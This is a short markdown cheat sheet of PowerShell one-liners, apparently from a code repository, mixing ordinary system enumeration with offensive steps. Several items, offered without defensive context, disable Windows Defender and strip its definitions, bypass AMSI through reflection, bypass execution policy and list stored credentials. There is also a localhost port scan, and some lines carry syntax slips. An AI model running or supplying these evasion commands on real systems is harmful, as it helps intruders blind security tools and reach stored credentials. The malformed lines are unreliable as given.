

## 1. Disable Windows Defender Realtime Monitoring
This command disables Windows Defender's real-time monitoring.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```

---
## 2. Get Detailed OS Information
This command retrieves all properties of the operating system.
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```

---
## 3. Network Interface Information
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.
```powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```

---
## 4. List Processes by CPU Usage
This command retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```

---
## 5. Port Scanning (1-1024)
This command performs a basic port scan on localhost for ports 1 to 1024.
```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async = $sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false); if($sock.Connected) { $_ }; $sock.Close() }
```

---
## 6. Disable AMSI (Antimalware Scan Interface)
This command disables AMSI by manipulating internal PowerShell structures.
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```


---
## 7. Bypass Execution Policy Temporarily
This command temporarily bypasses the execution policy for running scripts and then reverts it.
```powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. List Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey/list
```
---
